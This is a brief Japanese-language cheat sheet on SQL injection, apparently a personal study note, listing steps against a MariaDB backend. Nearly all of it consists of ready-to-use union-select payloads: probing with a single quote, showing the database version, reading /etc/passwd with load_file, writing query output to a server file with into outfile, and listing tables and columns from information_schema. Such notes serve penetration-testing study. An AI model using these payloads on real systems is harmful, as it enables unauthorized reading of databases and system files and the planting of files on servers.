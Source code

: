 # SQLi

* SQL Injection

1. 入力値に`'`を入力してエラーの有無を検証
   1. エラーが帰らない場合もある。
   2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
   3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
   4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
   5. `' union select column_name from table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
   6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
